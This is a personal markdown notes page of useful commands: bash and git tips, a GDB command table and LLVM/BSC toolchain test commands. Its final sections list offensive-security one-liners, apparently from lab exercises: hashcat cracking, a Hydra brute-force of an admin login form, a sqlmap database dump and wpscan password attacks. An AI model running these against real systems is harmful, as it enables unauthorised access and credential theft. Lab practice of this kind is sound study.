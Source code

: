 ```yaml
---
title: "Useful Commands Dump"
tags:
  - help
  - work
---
```

# Useful Commands Dump
---
Well... where I dump any useful commands I find and them hopefully I'll categorise them... eventually...

## Terminal
* Change file extension of all files:
```bash
for file in *.txt; do mv "$file" "${file%.txt}.md"; done
```

* If Git is hanging after total is because:
```bash
git config --global http.postBuffer 157286400
```

- Run previous argument:

```bash
!$
```

## GDB
| Command                      | Description                                                      |
| ---------------------------- | ---------------------------------------------------------------- |
| `gdb --args <binary> <args>` | Start the program with an argument list.                         |
| `b FileName:linenum`         | For setting a breakpoint.                                        |
| `bt`                         | For getting backtrace.                                           |
| `thread apply all bt`        | For getting the backtrace of all threads.                        |
| `p variableName`             | For printing the value of a variable/object.                     |
| `up`                         | For going up the stack frame.                                    |
| `down`                       | For going down the stack frame.                                  |
| `l`                          | For listing source lines of code around the current stack frame. |
| `disassemble`                | For showing the assembly code of the current function.           |
| `n`                          | For executing the next source instruction.                       |
| `si`                         | For executing the next machine instruction.                      |
| `q`                          | To quit the debugger.                                            |
| `r`                          | To run the program.                                              |

The docs are [here](https://www.gnu.org/software/gdb/documentation/).
More info on [[notes/general/gdb|GDB]].

## The dump of dumps

### BSC/Tiger related
```bash
runtest --tool=gcc --tool_exec=bsc-elf-clang  --tool_opts= --directory=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite/gcc.target --srcdir=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite --target_board=bsc-embdebug --target=bsc-elf "bsc.exp=bsc/or.c"
```

```bash
export PATH=${HOME}/riscv32-clang-gcc-testing/install/bin:$PATH
export BSC_TIMEOUT=300
export BSC_TRIPLE=bsc-elf
export BSC_SIM_COMMAND=bsc-run
export BSC_SIM_FLAGS=
export DEJAGNU=${HOME}/tiger/toolchain/site.exp
export TOOLDIR=${HOME}/tiger/toolchain/
```

```bash
bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' test2.exe
```

```bash
llvm-objdump -d <testobject>
```

```bash
bsc-run --max-steps=200 --trace-inst --trace-regs --trace-stack ds.exe 2>&1 | tee output.txt
```

```bash
pietraferreira@tom:~/insn-test-tiger$ bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' sub.exe
```

Ask the front end to produce unoptimised LLVM IR:
```bash
bsc-elf-clang -Wall -O0 -S -emit-llvm --target=bsc 20180309-1.c -o 20180309-1.ll
```

Compile but stop at assembly:
```bash
llc --debug -mtriple=bsc 20180309-1.ll -o 20180309-1.s
```

```bash
llvm-objdump -d sim-test.exe
```

```bash
bsc-elf-gdb sim-test.exe -ex "target remote | embdebug --soname sysc-bsc --vcd=trace-do --debug=0x00070000 --clk-mhz=1 --sim-cycles=10000 --stdin" -ex load -ex c -ex detach -ex quit 2>&1 | tee sim-test.log
```

## Website URL Fix
```bash
grep -rl 'notes/images' . | sort | uniq | xargs perl -e "s/assets/assets\/engineer-training/" -pi
```

## Hashcat
```bash
hashcat -m 1000 pass.txt ../Desktop/rockyou.txt
```

## Hydra
```bash
hydra -l admin -P ../Desktop/rockyou.txt 10.10.187.151 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=iL08cD6b3clJctyo0KNeEsuXx9w7SrkAtggDy0m16fdgDu1lU1uuo3uh6%2FRluRbkD9GutlhMGTHkzw5TKQ%2BHgSoGVo73vHE7yAY2Vsky3EyktnYS%2BIy0jb68wZvhEHGpOLmwYsk3M7NnT45B%2B2jaDdrRfwr94Ks2d1VIKp2LvcNs%2F6rd&__EVENTVALIDATION=5N%2Bcad1wYajo0H2m7Bq3nlBqYeKcha9MeicRSms1xOrJ8b9v%2FiDF9nj6Kge38NGN6KBMhWEtiNyCZFWTMItDUQu34YiMN8vVxQv6lQEgBw5RWhtEihlALnJsM5gAhf89mlKiwmAbHq2Lz0jR30paNwnGrt5M%2Fwj7m6oohs8%2F8JQKoaoM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
```

## SQLmap
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Wordpress
Enumeration:

```bash
wpscan --url 10.10.101.40/blog
```

Look for vulnerable plugins and usernames:

```bash
wpscan --url 10.10.101.40/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

## Git
```bash
--ff-only
```
